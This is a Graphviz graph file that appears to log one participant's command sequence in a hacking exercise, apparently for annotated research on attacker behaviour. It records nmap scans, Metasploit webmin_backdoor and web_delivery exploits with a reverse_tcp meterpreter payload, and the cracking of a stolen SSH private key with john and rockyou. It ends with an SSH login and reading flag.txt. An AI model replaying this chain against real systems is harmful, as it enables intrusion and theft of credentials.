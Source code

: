 // creating graph for user: 92
digraph {
	node [shape=box]
	0 [label="nmap 172.181.1.5 -p- A0 A1 "]
	1 [label="nmap 172.181.1.5 -p- -Pn A0 A1 "]
	2 [label="nmap 172.18.1.5 -p- M0 "]
	3 [label="nmap 172.18.1.5 -p- -A M0 "]
	4 [label="msfconsole M2 "]
	5 [label="search webmin M3 "]
	6 [label="use exploit/unix/webapp/webmin_backdoor M8 "]
	7 [label="show options M5 "]
	8 [label="ip a U"]
	9 [label="set LHOST 10.1.135.83 M6 "]
	10 [label="show options M5 "]
	11 [label="set RHOSTS 172.18.1.5 M6 "]
	12 [label="exploit M8 "]
	13 [label="search web A3 "]
	14 [label="search web_de A3 "]
	15 [label="setg LHOST 10.1.135.83 M6 "]
	16 [label="use exploit/multi/script/web_delivery M8 "]
	17 [label="show optins A5 "]
	18 [label="show otions A5 "]
	19 [label="show options M5 "]
	20 [label="set target linux A6 "]
	21 [label="show options M5 "]
	22 [label="show targets A5 "]
	23 [label="set target  A6 "]
	24 [label="show options M5 "]
	25 [label="show targets A5 "]
	26 [label="set target  A6 "]
	27 [label="set target 6 A6 "]
	28 [label="show options M5 "]
	29 [label="set payload linux/x64/meterpreter/reverse_tcp  A6 "]
	30 [label="show options M5 "]
	31 [label="run M8 "]
	32 [label="use exploit/unix/webapp/webmin_backdoor M8 "]
	33 [label="run M8 "]
	34 [label="set LPORT 4445 A6 "]
	35 [label="run M8 "]
	36 [label="nmap 172.18.1.5/12 -p- M0 "]
	37 [label="sessions 3 U"]
	38 [label="sessions U"]
	39 [label="sessions -u ~ U"]
	40 [label="sessions -u 3 U"]
	41 [label="sessions 3 U"]
	42 [label="nmap 172.18.1.5/24 -p- M0 "]
	43 [label="sessions 4 U"]
	44 [label="sessions U"]
	45 [label="nmap 172.18.1.2 A0 A1 "]
	46 [label="ip a U"]
	47 [label="ip route U"]
	48 [label="sessions 3 U"]
	49 [label="sessions 4 U"]
	50 [label="sessions U"]
	51 [label="nmap 81.2.195.254 A0 A1 "]
	52 [label="curl 81.2.195.254 U"]
	53 [label="ping 10.1.18.22 U"]
	54 [label="nmap 10.1.18.22 A0 A1 "]
	55 [label="nmap 10.1.17.4 A0 A1 "]
	56 [label="cd .ssh A16 "]
	57 [label="ls A10 "]
	58 [label="cat id_rsa M12 "]
	59 [label="john id_rsa A14 "]
	60 [label="ssh2john A14 A16 "]
	61 [label="locate ssh2john A1 A9 A10 A11 A12 A14 A16 A17 "]
	62 [label="cd U"]
	63 [label="python ssh2john.py M13 "]
	64 [label="python ssh2john.py .ssh/id_rsa M13 "]
	65 [label="python ssh2john.py .ssh/id_rsa > eve M13 "]
	66 [label="john eve A14 "]
	67 [label="locate rockyou A1 A9 A10 A11 A12 A17 "]
	68 [label="john eve --wordlist=/usr/share/wordlists/rockyou.txt M14 "]
	69 [label="ls A10 "]
	70 [label="ssh eve@10.1.17.4 M16 "]
	71 [label="chmod 600 .ssh/id_rsa M15 "]
	72 [label="ssh eve@10.1.17.4 M16 "]
	73 [label="ls -la A10 "]
	74 [label="cd top-secret/ U"]
	75 [label="ls A10 "]
	76 [label="cat flag.txt M17 "]
	77 [label="sessions 5 U"]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	rankdir=LR
}
